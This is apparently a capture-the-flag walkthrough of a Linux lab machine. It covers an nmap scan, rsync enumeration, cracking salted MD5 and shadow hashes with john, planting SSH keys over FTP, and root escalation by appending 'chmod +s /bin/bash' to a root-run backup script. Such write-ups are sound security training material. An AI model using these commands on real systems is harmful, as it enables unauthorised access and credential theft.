








# Enumeration
```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ae:3c:b4:e7:1d:b7:c2:43:86:40:83:19:90:f5:33:c1 (ECDSA)
|_  256 8a:d0:1b:54:0b:aa:15:85:b3:ac:7b:4b:1c:09:14:2a (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
So enumerating rsync:
`rsync -av --list-only rsync://10.10.80.132/`

Now downloading everything from httpd:
We notice a site.db so opening it there are 2 users:

Analysing the index.php from the same directory:

it is a salted md5 hash so using mode 20 and arranging hash in the format:


Now we can crack the password:

Now logging in through ftp and putting authorized keys to login with ssh. We get a shell as triss.
Then trying to su to jennifer she uses the same password
Now we can access the /backup folder which contains passwd and shadow files:

Using unshadow and john:

We find the password sa user.

Now trying to enumerate files owned by user sa
we find `/usr/local/bin/backup.sh`

Adding `chmod +s /bin/bash`
We can see it works:

Now trying to run bash as root user:
`/bin/bash -p`

